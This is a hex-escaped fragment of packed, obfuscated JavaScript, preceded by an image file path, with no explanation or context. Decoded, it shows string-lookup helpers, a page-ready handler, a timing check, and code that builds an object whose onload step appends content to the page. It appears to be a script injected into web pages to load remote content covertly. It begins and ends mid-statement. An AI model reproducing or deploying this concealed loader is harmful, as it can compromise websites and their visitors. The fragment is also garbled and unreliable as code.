 33\x5C\x61\x5C\x34\x5C\x36\x5C\x33\x5C\x38\x5C\x6C\x5C\x6B\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x61\x5C\x34\x5C\x36\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x31\x69\x5C\x65\x5C\x31\x67\x5C\x32\x34\x5C\x31\x74\x27\x2C\x27\x5C\x41\x5C\x37\x5C\x43\x5C\x6A\x5C\x6C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x5C\x6E\x27\x2C\x27\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x6E\x5C\x62\x27\x5D\x3B\x73\x20\x33\x57\x3D\x46\x28\x34\x57\x2C\x38\x50\x29\x7B\x34\x57\x3D\x34\x57\x2D\x5A\x3B\x73\x20\x37\x31\x3D\x36\x5A\x5B\x34\x57\x5D\x3B\x31\x39\x20\x37\x31\x7D\x3B\x73\x20\x31\x65\x3D\x33\x57\x3B\x24\x28\x46\x28\x33\x58\x29\x7B\x73\x20\x35\x4C\x3D\x33\x57\x3B\x33\x58\x5B\x27\x5C\x63\x5C\x64\x27\x5D\x5B\x35\x4C\x28\x27\x5C\x30\x5C\x32\x5C\x30\x27\x29\x5D\x3D\x46\x28\x29\x7B\x73\x20\x34\x6D\x3D\x35\x4C\x3B\x59\x28\x34\x6D\x28\x27\x5C\x30\x5C\x32\x5C\x35\x27\x29\x21\x3D\x3D\x34\x6D\x28\x27\x5C\x30\x5C\x32\x5C\x72\x27\x29\x29\x31\x39\x20\x54\x5B\x27\x5C\x33\x5C\x34\x5C\x62\x5C\x77\x27\x5D\x28\x46\x28\x29\x7B\x73\x20\x31\x59\x3D\x34\x6D\x3B\x59\x28\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x79\x27\x29\x21\x3D\x3D\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x79\x27\x29\x29\x7B\x46\x20\x38\x51\x28\x29\x7B\x73\x20\x37\x32\x3D\x31\x59\x2C\x37\x33\x3D\x38\x52\x5B\x37\x32\x28\x27\x5C\x30\x5C\x32\x5C\x45\x27\x29\x5D\x28\x38\x53\x2C\x33\x6C\x29\x3B\x31\x39\x20\x38\x54\x3D\x31\x47\x2C\x37\x33\x7D\x7D\x31\x33\x7B\x46\x20\x35\x4D\x28\x29\x7B\x73\x20\x33\x59\x3D\x31\x59\x2C\x37\x34\x3D\x33\x58\x28\x31\x55\x29\x5B\x27\x5C\x77\x5C\x33\x5C\x39\x5C\x48\x5C\x77\x5C\x36\x27\x5D\x28\x29\x2C\x37\x35\x3D\x33\x58\x28\x31\x55\x29\x5B\x33\x59\x28\x27\x5C\x30\x5C\x32\x5C\x69\x27\x29\x5D\x28\x29\x2C\x37\x36\x3D\x34\x6E\x5B\x27\x5C\x65\x5C\x63\x5C\x63\x5C\x37\x5C\x33\x5C\x36\x27\x5D\x28\x29\x5B\x33\x59\x28\x27\x5C\x30\x5C\x32\x5C\x68\x27\x29\x5D\x3B\x59\x28\x37\x35\x2B\x37\x34\x3E\x37\x36\x29\x7B\x73\x20\x35\x4E\x3D\x32\x48\x20\x38\x55\x28\x29\x3B\x35\x4E\x5B\x33\x59\x28\x27\x5C\x30\x5C\x32\x5C\x71\x27\x29\x5D\x3D\x46\x28\x29\x7B\x73\x20\x37\x37\x3D\x33\x59\x3B\x34\x6E\x5B\x27\x5C\x34\x5C\x38\x5C\x38\x5C\x31\x66\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x27\x5D\x28\x37\x37\x28\x27\x5C\x30\x5C\x32\x5C\x7A\x27\x29\x29\x7D\x2C\x35\x4E\x5B\x33\x59\x28\x27\x5C\x30\x5C\x32\x5C\x44\x27\x29\x5D\x3D\x34\x58\x7D\x7D\x73\x20\x34\x6E\x3D\x33\x58\x28\x54\x29\x2C\x34\x59\x3D\x34\x6E\x5B\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x34\x27\x29\x5D\x28\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x44\x27\x29\x29\x2C\x37\x38\x3D\x34\x6F\x5B\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x6A\x27\x29\x5D\x28\x34\x6E\x5B\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x62\x27\x29\x5D\x28\x29\x29\x2C\x34\x58\x3D\x27\x27\x3B\x34\x59\x5B\x27\x5C\x42\x5C\x34\x5C\x36\x5C\x62\x5C\x77\x27\x5D\x28\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x38\x27\x29\x29\x3F\x34\x58\x3D\x34\x59\x5B\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x33\x27\x29\x5D\x28\x31\x59\x28\x27\x5C\x30\x5C\x32\x5C\x63\x27\x29\x2C\x37\x38\x29